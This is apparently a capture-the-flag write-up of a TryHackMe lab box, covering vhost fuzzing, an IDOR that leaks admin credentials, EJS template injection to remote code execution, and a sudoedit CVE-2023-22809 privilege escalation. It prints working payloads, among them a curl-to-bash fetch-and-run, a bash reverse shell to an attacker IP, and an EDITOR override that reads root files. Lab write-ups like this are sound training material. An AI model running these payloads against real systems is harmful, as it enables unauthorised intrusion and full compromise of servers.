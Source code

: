 ```yaml
---
layout: post
title: testing
date: 2025-04-19
categories: [CTF, SSTI]
tags: [Tryhackme]
---
```


### Nmap
```
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 60 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)

```
Given creds from the challange `Olivia Cortez:olivi8`

# Enumeration

## HTTP (80)

### Dirsearch

- Nothing Intresting

### Vhost Fuzzing

```
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 167ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 167ms]
```

### admin.cyprusbank.thm

- Login page 
- `Olivia Cortez:olivi8` Using this credentials we can login

![[https://c00lrabbit.github.io/assets/Images/WhiteR-Adm-panel.png]]

## IDOR in msg
![[Pasted image 20250417215321.png | 1000]]

```
Found these creds using IDOR

Gayle Bev : p~]P@5!6;rs558:q
```

Since Gayle is admin we can login as admin using these creds

## Found SSTI in `/settings` 

![[Pasted image 20250417230306.png | 1000]]
- We found ejs and found a RCE about that https://security.snyk.io/vuln/SNYK-JS-EJS-2803307

```
# SSTI Payload
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.49.29:8000');s
```
- We got a hit in our python server
![[Pasted image 20250417232348.png | 500]]

Shell.sh
```bash
bash -i >& /dev/tcp/10.17.49.29/9001 0>&1
```

payload
```
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.49.29:8000/shell.sh|bash');s
```
- we got a shell and user flag

# Privilege Escalation

```bash
sudo -l

(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

sudoedit -v
```

#### Sudo version 1.9.12p1 leads to a vulnerability

https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis

exploit
```
export EDITOR="vi -- /root/root.txt"

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

- We got the root flag
